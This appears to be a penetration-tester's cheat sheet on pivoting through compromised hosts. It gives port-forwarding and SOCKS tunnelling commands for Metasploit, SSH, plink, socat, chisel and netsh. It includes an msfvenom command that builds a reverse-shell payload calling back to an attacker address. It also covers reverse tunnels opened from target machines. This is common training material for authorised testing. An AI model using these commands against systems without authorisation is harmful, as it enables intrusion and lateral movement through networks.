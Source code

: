 # Pivoting

## PORT FORWARDING ("port to port")

### Using Metasploit

Target: Most platforms

Forward: Get meterpreter session on one of the dual homed machines

```bash
portfwd add -l 4445 -p 4443 -r 10.1.1.1
# Use -R to make it reverse
```

### Using SSH

Target: Linux

\~C

**If you already have an SSH session**

Single host port forward

```bash
ssh -R 8081:172.24.0.2:80 # (on my Kali machine listen on 8081, get it from 172.24.0.2:80)
# <KALI 10.1.1.1>:8081<------------<REMOTE 172.16.0.2>:80
# Now you can access 172.16.0.2:80, which you didn't have direct access to
```

Dual host port forward

```bash
ssh -L 8083:127.0.0.1:8084 # (on your machine listen on 8083, send it to my Kali machine on 8084)
# <KALI 127.0.0.1>:8084<------------<REMOTE 10.1.1.230>:8083<------------<REMOTE X.X.X.X>:XXXX
# run nc on port 8084, and if 10.1.1.230:8083 receives a reverse shell, you will get it on kali

#For reverse shell:
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.123 LPORT=8083 -f exe -o shell
# Run it on 2nd remote target to get a shell on Kali
```

**If you don't already have an SSH session**

First, SSH to your Kali from target machine

On Kali:

```bash
service ssh start 
# "add a user, give it /bin/false in /etc/passwd"
ssh - -R 12345:192.168.1.212:5986 test@10.10.10.123
```

### Using PLINK

Target: Windows&#x20;

service ssh start , and transfer `/usr/share/windows-binaries/plink.exe` to the target machine

```bash
#On Target: 
plink.exe 10.10.10.123 -P 22 -C -N -L 0.0.0.0:4445:10.10.10.123:4443 -l $KALIUSER -pw $PASS
```

### Using SOCAT

Target: Linux

Forward your 8083 to 10.39.0.2:443

```bash
./socat TCP4-LISTEN:8083,fork TCP4:10.39.0.2:443
```

### Using CHISEL

Target: Most platforms

Remote static tunnels "port to port":

```bash
#On Kali "reverse proxy listener":
./chisel server -p 8000 -reverse

#General command:
./chisel client $YOUR_IP:$YOUR_CHISEL_SERVER_PORT L/R:[$YOUR_LOCAL_IP]:$TUNNEL_LISTENING_PORT:$TUNNEL_TARGET:$TUNNEL_PORT
```

**Remote tunnels "access IP:PORT you couldn't access before":**

```bash
#On Target:
./chisel client 10.1.1.1:8000 R:127.0.0.1:8001:172.19.0.3:80
```

**Local tunnels "listen on the target for something, and send it to us":**

```bash
#On Target:
./chisel client 10.1.1.1:8000 9001:127.0.0.1:8003
```

## Using netsh

Target: Windows

```bash
#Add a port forward
netsh interface portproxy add v4tov4 listenaddress=127.0.0.1 listenport=9000 connectaddress=192.168.0.10 connectport=80
#Remove it
netsh interface portproxy delete v4tov4 listenaddress=127.0.0.1 listenport=9000
```

## DYNAMIC Port Forwarding ("port to any")

* setup proxychains with socks5 on 127.0.0.1:1080
  * Or set up socks5 proxy on firefox
* For nmap use -Pn -sT or use tcp scanner in msf

### Using Metasploit

Target: Most platforms

* Get meterpreter session on one of the dual homed machines
* Auto route to 10.1.1.0 (multi/manage/autoroute)
* Start socks proxy (auxiliary/server/socks4a)

### Using SSH

Target: Linux

```
ssh -i bobs.key -p 2222 bob@10.10.10.123 -D1080
```

### Using PLINK

Target: Windows

```bash
#On Target: 
plink.exe 10.1.1.1 -P 22 -C -N -D 1080 -l $KALIUSER -pw $PASS
```

### Using CHISEL

Target: Most platforms

```bash
#On Kali:
./chisel server -p 8000 -reverse

#On Target:
./chisel client 10.1.1.1:8000 R:8001:127.0.0.1:1080
./chisel server -p 8001 --socks5

#On Kali:
./chisel client 127.0.0.1:8001 socks
```

##
